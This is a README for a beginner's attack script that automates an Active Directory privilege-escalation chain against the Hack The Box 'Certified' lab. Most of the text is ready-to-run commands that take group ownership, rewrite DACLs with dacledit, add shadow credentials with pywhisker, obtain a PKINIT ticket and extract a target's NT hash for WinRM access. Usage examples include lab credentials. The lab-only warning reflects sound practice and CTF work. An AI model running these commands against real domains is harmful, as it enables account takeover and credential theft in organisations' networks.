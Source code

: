 # Script for lazy people (_SfLp_)


## ⚠️ WARNING: This script is intended **for lab/testing purposes only** (e.g., Hack The Box, CTFs). Do **not** run this against any production or unauthorized systems.





### This script automate the WriteOwner -> Group -> GenericWrite


#### How to use the script 

#### You will use WoGr.py // and WoGr_rights.py 

<img width="698" height="245" alt="image" src="https://github.com/user-attachments/assets/fc760e9e-87a8-458b-9951-ca4a0901486b" />


<img width="741" height="186" alt="image" src="https://github.com/user-attachments/assets/72030468-6d11-4b7f-b45c-1036c05f60de" />

0) Open req and git the file

```
git clone https://github.com/dirkjanm/PKINITtools.git
git clone https://github.com/ShutdownRepo/pywhisker.git
```

0) Sorry i forgot to move pywhisker :) 

```
mv pywhisker/pywhisker/pywhisker.py .
```

1) Chmod
```
chmod +x WoGr.py WoGr_rights.py pywhisker.py
```
2) Run WoGr.py

```
python3 WoGr.py -u USER -p PASSWORD -d DOMAIN -t TARGET --dc DC [--exp EXP]
```
2 ) exp
```
python3 WoGr.py -u judith.mader -p judith09 -d certified.htb -t management_svc --dc 10.10.11.41 --exp "management_svc.ccache"
```
2 ) If script get the error "INSUFF_ACCESS_RIGHTS" run WoGr_rights.py

<img width="1420" height="376" alt="image" src="https://github.com/user-attachments/assets/dc4fd7dd-58a9-47eb-81c6-cf5bc6c7e182" />

3 )  run WoGr_rights.py 

```
python3 WoGr_rights.py -target_group TARGET_GROUP
```
3 ) exp
```
python3 WoGr_rights.py -target_group management 
```
4 ) Run WoGr.py . And you will get the NT hash for the target 

<img width="467" height="43" alt="image" src="https://github.com/user-attachments/assets/deb13f2e-1a9c-47bc-ab21-5b79d524fdde" />

After that you can run evil winrm :) , have fun 

# EXP

<img width="1201" height="370" alt="image" src="https://github.com/user-attachments/assets/cef31768-6ec0-4bdc-9011-1ddb34d13de4" />

 - 1 User -> we use with WoGr.py : -u , -p 
 - 2 Group -> we use with WoGr_rights.py : -target_group
 - 3 User we want -> we use with WoGr.py : -t , --exp 


----
----
----

# I need to mentionate this it s my first script ... , tested by me on "HTB Certified" the script run a serias of command who get you the NT hash

# The WoGr.py run 

1) nxc for host file 
```
nxc smb <$IP> --generate-hosts-file host_script
```
1.2) And make a creds folder who store all the creds who you give to him

2) Abuse GenericWrite acl to get control of the <User_we_want > account
```
python3 pywhisker.py -d "<dc>" -u "<name>" -p "<pass>" --target "<target user>" --action "add"
```

3) We use faketime for set the curent time of the machine and use gettgtpkinit with the .pfx , pass generated by the pywhisker  
```
faketime "$(ntpdate -q <IP> | cut -d " " -f 1,2)" python3 PKINITtools/gettgtpkinit.py -cert-pfx <file.pfx> certified.htb/management_svc -pfx-pass "<pass(pfx)>" <target user>.ccache
```
4) After he found the AS-REP we use it with faketime and getnthash from PKINITtools to get the NT Hash 
```
faketime "$(ntpdate -q <IP> | cut -d " " -f 1,2)" python3 PKINITtools/getnthash.py -key <key> <dc>/<target user>
```
5) At the end we remove all .pem / .pfx file


# The WoGr_rights.py run 

1) Set owner group 

```
bloodyAD --host "<ip>" -d "<dc>" -u "<name>" -p "<pass>" set owner <group> <name>
```
2) DACL modify
```
impacket-dacledit -action write -rights "FullControl" -inheritance -principal "<user>" -target "<group>" "<dc>/<user>:<pass>"
```
3) Add to the target group
```
net rpc group addmem "management" "<user>" -U "<dc>/<user>%<pass>" -S "<FullDc>"
```
